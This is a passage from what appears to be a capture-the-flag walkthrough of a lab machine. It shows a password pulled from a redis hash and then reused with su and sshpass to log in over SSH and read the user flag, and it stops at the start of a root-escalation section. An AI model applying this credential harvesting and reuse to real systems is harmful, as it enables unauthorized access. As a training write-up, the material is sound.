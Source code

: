 It seems to return the field as one, followed by the value in the next. 13 and 14 are artifacts of my injection in the previous step.

```
redis /var/run/redis/redis.sock> HGETALL cooper.dooper
 1) "username"
 2) "cooper.dooper"
 3) "password"
 4) "zooperdoopercooper"
 5) "first-name"
 6) "Cooper"
 7) "last-name"
 8) "Dooper"
 9) "pro"
10) "false"

```

4 is the password for the cooper.dooper user.

### SSH / su

That password works for the cooper user on the box with `su`:

```
www-data@format:~$ su - cooper
Password:
cooper@format:~$

```

It also works for SSH:

```
oxdf@hacky$ sshpass -p 'zooperdoopercooper' ssh cooper@10.10.11.213
...[snip]...
cooper@format:~$

```

Either way I can claim `user.txt`:

```
cooper@format:~$ cat user.txt
2546f1e9************************

```

## Shell as root

### Enumeration

#### sudo

cooper can run `license` as root:
